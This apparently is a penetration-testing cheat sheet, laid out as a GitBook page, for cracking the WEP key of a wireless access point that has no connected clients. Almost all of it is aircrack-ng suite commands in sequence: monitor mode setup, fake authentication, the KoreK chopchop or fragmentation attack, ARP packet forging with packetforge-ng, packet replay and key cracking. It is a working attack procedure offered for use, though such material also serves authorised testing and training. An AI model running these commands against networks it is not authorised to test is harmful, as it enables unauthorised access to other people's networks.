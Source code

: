 # clientless

### Setup

{% code overflow="wrap" %}
```
sudo airmon-ng check kill

sudo airmon-ng start wlan0
```
{% endcode %}

Conduct a fake authentication attack against the AP:

```

aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>
```

Run attack 4, the KoreK chopchop attack (or attack 5, the fragmentation attack):

#### KoreK Chop Chop Attack

```
aireplay-ng -4 -b <AP MAC> -h <Your MAC> <interface>
```

#### Fragmentation Attack

```
aireplay-ng -5 -b <AP MAC> -h <Your MAC> <interface>
```

Craft an ARP request packet using packetforge-ng:

{% code overflow="wrap" %}
```

packetforge-ng -0 -a <AP MAC> -h <Your MAC> -l <Source IP> -k <Dest IP> -y <xor filename> -w <output filename>
```
{% endcode %}

Inject the packet into the network using attack 2, the interactive packet replay attack:

```
aireplay-ng -2 -r <xor packet filename> <interface>
```

Crack the WEP key using Aircrack-ng:

```
aircrack-ng <capture>
```

